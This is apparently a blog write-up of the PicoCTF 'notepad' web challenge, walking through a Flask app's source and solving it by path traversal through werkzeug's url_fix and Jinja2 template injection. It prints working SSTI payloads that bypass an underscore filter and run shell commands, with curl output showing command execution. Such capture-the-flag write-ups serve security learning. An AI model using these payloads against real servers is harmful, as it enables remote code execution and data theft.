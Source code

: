 ﻿---
layout: post
title:  "notepad WU"
date:   2024-09-15 15:23:10 +0700
categories: write-up PicoCTF
author: HSw109
tags: web
---

## app.py 

 ```python
 @app.route('/user/<name>')
def greet_user(name):
    return render_template('greet.html', name=name)
```

https://notepad.mars.picoctf.net/ render **index.html** with context variable "error" .

```python
@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```
https://notepad.mars.picoctf.net/new for uploading notes. Variable **content** is taken from the HTML form, filtered with '_' and '/' and if occur, redirect to error html. If not, store new file html note in folder static with file name is `static/{url_fix(content[:128])}-{token_urlsafe(8)}.html`

### url_fix()
Its deprecated in the werkberg library ([here](https://tedboy.github.io/flask/generated/werkzeug.url_fix.html)). Source:
```python
def url_fix(s, charset='utf-8'):
    r"""Sometimes you get an URL by a user that just isn't a real URL because
 it contains unsafe characters like ' ' and so on. This function can fix
 some of the problems in a similar way browsers handle data entered by the
 user:

 >>> url_fix(u'http://de.wikipedia.org/wiki/Elf (Begriffskl\xe4rung)')
 'http://de.wikipedia.org/wiki/Elf%20(Begriffskl%C3%A4rung)'

 :param s: the string with the URL to fix.
 :param charset: The target charset for the URL if the url was given as
 unicode string.
 """
    # First step is to switch to unicode processing and to convert
    # backslashes (which are invalid in URLs anyways) to slashes.  This is
    # consistent with what Chrome does.
    s = to_unicode(s, charset, 'replace').replace('\\', '/')

    # For the specific case that we look like a malformed windows URL
    # we want to fix this up manually:
    if s.startswith('file://') and s[7:8].isalpha() and s[8:10] in (':/', '|/'):
        s = 'file:///' + s[7:]

    url = url_parse(s)
    path = url_quote(url.path, charset, safe='/%+$!*\'(),')
    qs = url_quote_plus(url.query, charset, safe=':&%=+$!*\'(),')
    anchor = url_quote_plus(url.fragment, charset, safe=':&%=+$!*\'(),')
    return to_native(url_unparse((url.scheme, url.encode_netloc(),
                                  path, qs, anchor)))
   ```

Notice that we have
 ```python
s = to_unicode(s, charset, 'replace').replace('\\', '/')
```
which is crucial for bypass "/" filter.

## index.html
{% raw %}
```html
    <!doctype  html>
    {% if error is not none %}
		    <h3>
		    error: {{ error }}
		    </h3>
		    {% include "errors/" + error + ".html" ignore missing %}
    {% endif %}
    <h2>make a new note</h2>
    <form  action="/new"  method="POST">
    <textarea  name="content"></textarea>
    <input  type="submit">
    </form> 
 ```
 {% endraw %}

Here, flask used Jinja2 (can SSTI). The **sink** could be the jinja template. Since https://notepad.mars.picoctf.net/?error=7*7 not works, cause the server treats the error string, so the Jinja template could not evaluate it.

{% raw %}
=> **Sink**: {% include "errors/" + error + ".html" ignore missing %}
{% endraw %}


To do that, we have:
```python
name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```
From there, we can perform directory traversal to folder **errors**, then by
{% raw %}
     {% include "errors/" + error + ".html" ignore missing %}
{% endraw %}     
we evaluate SSTI payload.

## Exploit
With use of url_fix(). We note:

    make a new note
    
    ..\templates\errors\123abc

=> Redirect to: https://notepad.mars.picoctf.net/templates/errors/123abc%0D%0A-4vnyXEK_tLc.html. Then we access it. 
=> https://notepad.mars.picoctf.net/?error=123abc%0D%0A-4vnyXEK_tLc

    error: 123abc -4vnyXEK_tLc
    
     make a new note
{% raw %}
Do the same with simple payload {{7*7}}
{% endraw %}

=>
{% raw %}
    error: 123abc {{7*7}}-mAQRWwnJPVg
{% endraw %}

    make a new note

Since it in the name of file, we cant evaluate it, to do this: from **app.py**:
```python
 name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
 ```
{% raw %}
After processing with `url_fix()`, the `{{7*7}}` expression contained special character `{` and `}`. So if its exist in the URL, we just pass the value of variable `error`, not the file that we made.
{% endraw %}

So what we need is make the content longer, then the payload is outbound of 128 characters =>
URL path is valid for access => SSTI!

**Payload:**
{% raw %}
    ..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{7*7}}
{% endraw %}

 ```bash   

    $ curl https://notepad.mars.picoctf.net/?error=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-nmraL3m59zo
    <!doctype html>
    
      <h3>
        error: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-nmraL3m59zo
      </h3>
      ..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa49
    
    <h2>make a new note</h2>
    <form action="/new" method="POST">
      <textarea name="content"></textarea>
      <input type="submit">
    </form>
```

Then we got this "49".
After a long while to craft my payload with [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), here is my payload for by pass the `_`
 
 **Payload:**
{% raw %}
``` 
{{request['\x5f\x5fclass\x5f\x5f']['\x5f\x5fmro\x5f\x5f'][11]['\x5f\x5fsubclasses\x5f\x5f']()[273]("ls", shell=True, stdout=-1).communicate()[0].strip()}}
```
{% endraw %}


```bash
$ curl https://notepad.mars.picoctf.net/?error=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-wVxNUWfAtG4
<!doctype html>

  <h3>
    error: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-wVxNUWfAtG4
  </h3>
  ..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab&#39;app.py\nflag-c8f5526c-4122-4578-96de-d7dd27193798.txt\nstatic\ntemplates&#39;

<h2>make a new note</h2>
<form action="/new" method="POST">
  <textarea name="content"></textarea>
  <input type="submit">
</form>
```
Do the last round for the flag:
{% raw %}
``` 
{{request['\x5f\x5fclass\x5f\x5f']['\x5f\x5fmro\x5f\x5f'][11]['\x5f\x5fsubclasses\x5f\x5f']()[273]("cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt", shell=True, stdout=-1).communicate()[0].strip()}}
```
{% endraw %}


> picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}

